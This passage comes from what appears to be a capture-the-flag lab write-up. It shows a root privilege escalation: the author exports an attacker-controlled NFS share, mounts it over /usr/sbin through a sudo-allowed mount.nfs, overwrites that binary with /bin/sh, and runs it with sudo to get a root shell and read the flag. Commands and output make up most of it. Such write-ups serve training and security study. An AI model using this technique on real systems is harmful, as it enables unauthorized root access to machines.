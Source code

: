 Adding our directory to `/etc/exports`.

```console
$ sudo bash -c 'echo "/tmp/share 10.0.0.0/8(rw)" >> /etc/exports'
```

Exporting our shares and restarting the `NFS` server to apply the configuration changes.

```console
$ sudo exportfs -a
$ sudo systemctl restart nfs-kernel-server
```

Since our share is ready, we can mount it over `/usr/sbin`.

```console
jojo@tonhotel:~$ sudo /usr/sbin/mount.nfs -o port=443 10.11.72.22:/tmp/share /usr/sbin
```

We can see that `/usr/sbin` is now writable.

```console
jojo@tonhotel:~$ ls -la /usr/sbin
total 8
drwxrwxrwx  2 nobody nogroup 4096 Jul 20 03:36 .
drwxr-xr-x 14 root   root    4096 Aug 31  2022 ..
```

Replacing the `/usr/sbin/mount.nfs` with `/bin/sh`.

```console
jojo@tonhotel:~$ cp /bin/sh /usr/sbin/mount.nfs
jojo@tonhotel:~$ ls -la /usr/sbin
total 136
drwxrwxrwx  2 nobody nogroup   4096 Jul 20 03:46 .
drwxr-xr-x 14 root   root      4096 Aug 31  2022 ..
-rwxr-xr-x  1 jojo   jojo    129816 Jul 20 03:46 mount.nfs
```

Now, we can run it using `sudo` to get a shell as the `root` user and read the root flag.

```console
jojo@tonhotel:~$ sudo /usr/sbin/mount.nfs
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
46 /root/root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>